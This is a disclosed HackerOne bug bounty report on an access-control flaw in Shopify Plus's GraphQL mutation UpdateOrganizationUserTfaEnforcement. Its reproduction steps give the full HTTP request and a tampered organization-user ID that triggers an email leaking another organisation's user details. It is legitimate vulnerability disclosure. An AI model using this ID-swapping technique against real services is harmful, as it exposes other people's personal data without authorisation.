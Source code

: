 # [h1-2102] Improper Access Control at https://shopify.plus/[id]/users/api in operation UpdateOrganizationUserTfaEnforcement

## Report Details
- **Report ID**: 1085042
- **URL**: https://hackerone.com/reports/1085042
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-23T03:33:14.754Z
- **Disclosed**: 2022-07-11T21:15:54.522Z

## Reporter
- **Username**: ramsexy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
There is an access control issue that happens when a Shopify Plus user tries to update the 2FA requirement of a user in another organisation. While the response shows an error message, an email is sent to the user with the 2FA status, first name, last name, email address, and shop id from the victim.

## Steps To Reproduce:
1. Log in to your Shopify Plus account https://shopify.plus/login
2. Go to `Administration` -> `Users` then go in one of the user page
3. In the `Security` section, edit the 2FA setting

    {F1168658}
4. Notice the following request:
    ```http
POST /34808573/users/api HTTP/1.1
Host: shopify.plus
 [...]

    {
        "operationName": "UpdateOrganizationUserTfaEnforcement",
        "variables": {
            "id": "Z2lkOi8vb3JnYW5pemF0aW9uL09yZ2FuaXphdGlvblVzZXIvMzQwNTc5Mzg=",
            "enforced": false
        },
        "query": "mutation UpdateOrganizationUserTfaEnforcement($id: OrganizationUserID!, $enforced: Boolean!) {\n  updateOrganizationUserTfaEnforcement(id: $id, enforced: $enforced) {\n    organizationUser {\n      id\n      tfaEnforced\n      __typename\n    }\n    userErrors {\n      field\n      message\n      __typename\n    }\n    operationStatus\n    message\n    __typename\n  }\n}\n"
    }
```
5. In Burp Repeater, edit the `id` with `Z2lkOi8vb3JnYW5pemF0aW9uL09yZ2FuaXphdGlvblVzZXIvMzQwNzE2MzI=`
6. You will receive an email containing Anatoly information :
{F1168661}

## Impact

A Shopify Plus user can retrieve information (2FA status, first name, last name, email address, shop ip) from a user in another organisation.

## Attachments
- Screen_Shot_2021-01-22_at_10.19.06_PM.png
- Screen_Shot_2021-01-22_at_10.08.14_PM.png
